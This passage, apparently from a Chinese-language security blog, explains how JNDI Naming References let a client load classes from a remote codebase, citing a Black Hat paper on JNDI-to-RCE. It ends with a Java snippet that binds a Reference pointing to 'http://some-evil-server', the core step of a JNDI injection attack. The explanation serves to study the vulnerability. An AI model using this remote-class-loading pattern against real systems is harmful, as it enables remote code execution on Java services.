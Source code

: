 ![image-20200204162708130](/images/jndi-with-rmi-20200209/image-20200204162708130-1255889.png)

从上述的构架来看，动态加载发生于两个部分，Naming Manager和JNDI SPI。这里SPI部分就是相对应的服务的配置，比如前文提到的RMI的限制就是SPI部分的。而Naming Manager也存在一个动态加载机制并且其在修复前并无限制，这里Naming Manager部分用到的是JNDI的Naming References

> In order to bind Java objects in a Naming or Directory service, it is possible to use Java serialization to get the byte array representation of an object at a given state. However, it is not always possible to bind the serialized state of an object because it might be too large or it might be inadequate.
>
> For such needs, JNDI defined **Naming References** (or just References from now on) so that objects could be stored in the Naming or Directory service indirectly by binding a reference that could be decoded by the Naming Manager and resolved to the original object.
>
> https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf

这里提到由于某些情况不能直接将远程obj返回，所以JNDI提出了Naming References的方法，返回相应的Reference而不返回具体的obj。统一由JNDI的请求端去加载指定的地址上的obj。这里加载方法中就包括远程codebase的方法，来看个例子

```java
String FactoryURL = "http://some-evil-server";
Reference reference = new Reference("MyClass","MyClass",FactoryURL);
ReferenceWrapper wrapper = new ReferenceWrapper(reference);
ctx.bind("Foo", wrapper);// 绑定reference
```
